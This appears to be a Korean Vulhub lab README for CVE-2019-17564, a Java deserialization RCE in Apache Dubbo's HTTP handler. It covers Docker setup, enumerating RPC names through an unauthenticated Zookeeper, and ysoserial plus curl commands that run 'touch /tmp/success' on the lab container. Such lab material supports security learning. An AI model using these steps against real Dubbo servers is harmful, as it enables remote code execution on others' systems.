



# CVE-2019-17564

Apache Dubbo는 java 기반의 고성능 오픈 소스 RPC 프레임워크입니다.

Apache Dubbo는 다양한 프로토콜을 지원하며, HTTP 프로토콜 핸들러는 Spring Framework의 'org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` 래퍼(wrapper) 형태입니다.

Spring Framework의 보안 경고는 안전하지 않은 Java 역직렬화(deserialization)가 `HttpInvokerServiceExporter`에 기반하며, 이는 RCE 취약점으로 이어질 수 있습니다. :

> 경고: 안전하지 않은 Java 역직렬화에 의한 취약점을 주의하세요:조작된 입력 스트림은 의도치 않은 명령어로 이어질 수 있습니다. 따라서, HTTP 호출자(Invoker) 엔드포인트를 비신뢰 환경 및 사용자에게 노출하지 마십시오. 개인 서비스 간의 HTTP 호출자 노출은 가능합니다. 일반적으로 JSON 등의 다른 메시지 포맷 사용을 강력하게 권고합니다.

해당 취약점은 Apache Dubbo 2.7.4와 이전 버전에 적용되며, Dubbo 2.7.5부터는 `HttpInvokerServiceExporter`를 `com.googlecode.jsonrpc4j.JsonRpcServer`로 대체했습니다.

## 참고문헌 링크

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 취약한 애플리케이션

하기 내용과 같이 명령어를 실행하여 Apache Dubbo 2.7.3을 실행합니다.

```
docker compose up -d
```

서비스 실행 후 ``http://your-ip:8080``에 접속할 경우,  에러 페이지 500을 기본적으로 반환합니다.

## 익스플로잇 단계 (Exploit)

해당 취약점을 사용하기 전, RPC의 이름을 반드시 알아야 합니다.

Vulhub는 8080 포트와 2181 포트를 열어두고 있으며, 2181 포트는 Zookeeper를 위한 포트입니다. [Zookeeper](https://zookeeper.apache.org/)를 다운로드한 후, **zkCli** 스크립트를 이용하여 인증되지 않은 Zookeeper 서버에 연결할 수 있습니다. :

```
./zkCli -server target-ip:2181
```

연결 후, 모든 노드에 'ls'를 적용할 수 있는 대화형 콘솔을 사용할 수 있습니다. 해당 콘솔은 Dubbo 관련 구성도 포함합니다.



`org.vulhub.api.CalcService` RPC 인터페이스를 사용하세요. [ysoserial](https://github.com/frohoff/ysoserial)를 통해 `CommonsCollections6` 페이로드를 생성하고, `http://your-ip:8080/org.vulhub.api.CalcService`에 POST 본문의 형태로 발송하십시오.

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```



컨테이너 접속 후, `touch /tmp/success` 명령어가 성공적으로 수행됨을 확인할 수 있습니다.


